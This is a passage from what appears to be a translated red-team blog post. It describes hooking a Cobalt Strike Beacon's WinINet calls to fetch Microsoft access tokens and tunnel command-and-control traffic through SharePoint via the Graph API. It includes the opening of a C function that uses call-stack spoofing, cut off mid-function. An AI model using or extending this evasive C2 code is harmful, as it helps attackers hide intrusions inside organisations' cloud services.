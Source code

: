 [![](assets/1709614992-518ba9df08d24bbafbede8dc603140ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240302221156-d3c6e4aa-d89e-1.png)

实际上，当 Beacon 开始其 http-get 循环并调用我们提到的四个 WinINet API 时，在其中一个函数被钩住时，我想向 login.microsoft.com 发起一个完全独立的网络请求，以获取访问令牌。在研究我应该在哪里尝试实现这个功能时，我注意 HttpOpenRequestA 将 Beacon 的 http-get 请求的 URI 作为参数。该 URI 需要引用 SharePoint 中的一个唯一文件，我们将使用 Graph API 访问该文件。我们需要访问令牌才能使用 Graph API，因此我们必须尝试在此处发出 "外带 "网络请求。

我编写了一个函数 "MakeWebRequest"，以方便在项目的其他地方使用这种技术：

```plain
SECTION( D ) LPVOID MakeWebRequest(HANDLE hInternet, 
                                    PVOID site, 
                                    PVOID uri, 
                                    PVOID verb, 
                                    PVOID headers, 
                                    PVOID content, 
                                    struct MemAddrs* pMemAddrs)
{
    LPVOID lpResult = NULL;

    // Connect to site
    HINTERNET hSite = ( HINTERNET )SPOOF( pMemAddrs->Api.net.InternetConnectA, 
                                           pMemAddrs->Api.net.hNet, 
                                           pMemAddrs->Api.net.size, 
                                           hInternet, 
                                           site, 
                                           C_PTR( U_PTR( INTERNET_DEFAULT_HTTPS_PORT ) ), 
```